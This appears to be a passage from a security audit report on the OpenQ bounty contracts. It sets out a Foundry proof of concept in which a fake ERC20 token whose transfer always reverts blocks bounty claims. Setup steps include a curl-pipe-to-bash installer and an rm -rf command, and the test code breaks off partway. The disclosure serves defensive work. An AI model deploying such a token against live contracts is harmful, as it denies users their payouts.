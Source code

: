 ## Impact

Users will not be able to receive their bounty.

## Code Snippet

### Foundry POC

I created a foundry POC end to end.
To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
2. If local node is not already running and contracts are not deployed, configured and funded - execute the following:
```bash
yarn deploy-contracts:localhost
yarn configure-whitelist:localhost
yarn deploy-bounties:localhost
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit; cp -r ../contracts ./src/; forge install openzeppelin/openzeppelin-contracts --no-commit; forge install openzeppelin/openzeppelin-contracts-upgradeable --no-commit; echo "@openzeppelin/contracts=lib/openzeppelin-contracts/contracts/\n@openzeppelin/contracts-upgradeable=lib/openzeppelin-contracts-upgradeable/contracts/" > remappings.txt
```
4. Add the following to `foundry/test/Hacker.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {OpenQV1} from "../src/contracts/OpenQ/Implementations/OpenQV1.sol";
import {ClaimManagerV1} from "../src/contracts/ClaimManager/Implementations/ClaimManagerV1.sol";
import {DepositManagerV1} from "../src/contracts/DepositManager/Implementations/DepositManagerV1.sol";
import {IBounty} from "../src/contracts/Bounty/Interfaces/IBounty.sol";
import {IERC20Upgradeable} from '@openzeppelin/contracts-upgradeable/token/ERC20/IERC20Upgradeable.sol';

contract FakeERC20 {
    function balanceOf(address) public returns (uint256) {return 100;}
    function transfer(address to, uint256 amount) public returns (bool) {
        revert(); // This will cause claim to revert
    }
    function transferFrom(address from, address to, uint256 amount) public returns (bool) { return true;}
}
contract Hacker is Test {
    // Addresses of contracts
    OpenQV1 OPENQ = OpenQV1(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707);
    ClaimManagerV1 CLAIM_MANAGER = ClaimManagerV1(0x2279B7A0a67DB372996a5FaB50D91eAA73d2eBe6);
    DepositManagerV1 DEPOSIT_MANAGER = DepositManagerV1(0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e);
    IERC20Upgradeable DAI = IERC20Upgradeable(0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0);

    // Bounties
    string atomicBountyWithGoalId = "I_kwDOGWnnz85GjwA1";
    IBounty bountyAddress;
    uint256 deposit_amount = 1000;

    //oracle
```